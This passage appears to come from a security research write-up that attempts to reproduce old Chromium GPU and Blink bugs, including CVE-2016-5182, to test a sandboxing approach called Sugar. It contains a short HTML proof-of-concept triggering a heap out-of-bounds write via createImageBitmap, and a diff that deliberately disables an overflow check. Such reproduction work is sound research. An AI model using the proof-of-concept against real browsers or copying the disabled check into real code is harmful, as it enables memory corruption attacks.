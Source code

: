 We cannot reproduce the GPU process crash by removing these patches. In our tests, only the renderer process crashes.

### Analysis

> the problem is "signed arithmetic overflow behaviour" -- which is specifically undefined in the C standard. We had some code relying on it. Modern compilers will perform optimizations that break such code… the clang / ASAN compiler you used to find this bug definitely has the optimization

This bug is compiler dependent. Integer overflow causes a returned null pointer to be dereferenced.

Sugar can prevent this bug from crashing the GPU process. This bug is in the GLES2 command decoder's service side. Sugar runs it in the renderer process.

### Patch

Link to [patch](https://src.chromium.org/viewvc/chrome?revision=155478&view=revision).


## [Blink, not WebGL] Out-of-bounds write with user controlled data (Issue 638615, 2016, Fixed)

[CVE-2016-5182](), [Issue 638615](https://bugs.chromium.org/p/chromium/issues/detail?id=638615),

> Blink in Google Chrome prior to 54.0.2840.59 for Windows, Mac, and Linux; 54.0.2840.85 for Android had insufficient validation in bitmap handling, which allowed a remote attacker to potentially exploit heap corruption via crafted HTML pages.

Note that Blink 2D is a GPU task by default unless `disable-accelerated-2d-canvas` is set.

### Cannot reproduce

Test case,

```html
<script>
	var canvas = document.createElement("canvas");
	var ctx = canvas.getContext("2d");

	var imageData = ctx.createImageData(1024, 1024);
	for (var i=0; i<1024*1024*4; i++)
		imageData.data[i] = 0x41;

	createImageBitmap(imageData, 0, 0, 0x8000, 0x8000, {premultiplyAlpha:"none"});
</script>
```

Beside the patch, we remove a check in `third_party/Webkit/Source/core/frame/ImageBitmap.cpp`,

```diff
bool DstBufferSizeHasOverflow(const ParsedOptions& options) {
+  return false;//rollback
  CheckedNumeric<unsigned> total_bytes = options.crop_rect.Width();
  total_bytes *= options.crop_rect.Height();
  total_bytes *=
```
